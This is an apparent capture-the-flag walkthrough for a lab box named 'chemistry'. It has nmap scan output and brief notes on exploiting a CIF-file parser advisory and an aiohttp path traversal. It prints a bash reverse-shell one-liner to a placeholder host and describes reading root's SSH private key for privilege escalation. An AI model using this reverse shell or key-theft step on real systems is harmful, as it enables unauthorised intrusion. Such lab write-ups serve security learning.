







# chemistry

## Nmap

```console
PORT     STATE  SERVICE REASON         VERSION
80/tcp   closed http    reset ttl 63
5000/tcp open   upnp?   syn-ack ttl 63
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.3 Python/3.9.5
|     Date: Fri, 25 Oct 2024 08:52:34 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 719
|     Vary: Cookie
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Chemistry - Home</title>
|     <link rel="stylesheet" href="/static/styles.css">
|     </head>
|     <body>
|     <div class="container">
|     class="title">Chemistry CIF Analyzer</h1>
|     <p>Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.</p>
|     <div class="buttons">
|     <center><a href="/login" class="btn">Login</a>
|     href="/register" class="btn">Register</a></center>
|     </div>
|     </div>
|     </body>
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
```

## web



* cifs exploit.
  * As mentioned in the [POC](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)
  * utilise the same cif file but change the system command to the following.

    ``` code
    /bin/bash -c \'sh -i >& /dev/tcp/<IP>/<Port> 0>&1 \'
    ```

## User-own







## Priv esc



* Portforwarding the 8080 http service

```bash
ssh -l 9001:127.0.0.1:8080 rosa@IP
```

* Enumerating the service on 8080.

```console
PORT     STATE SERVICE REASON         VERSION
9001/tcp open  http    syn-ack ttl 64 aiohttp 3.9.1 (Python 3.9)
|_http-server-header: Python/3.9 aiohttp/3.9.1
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site Monitoring
```

* aio exploit POC [here](https://github.com/z3rObyte/CVE-2024-23334-PoC/blob/main/exploit.sh) can help us read the id_rsa key of the root.
  * replace the /etc/passwd with /root/.ssh/id_rsa along with replacing static with assets.



* ssh locally as rosa and escalate to root


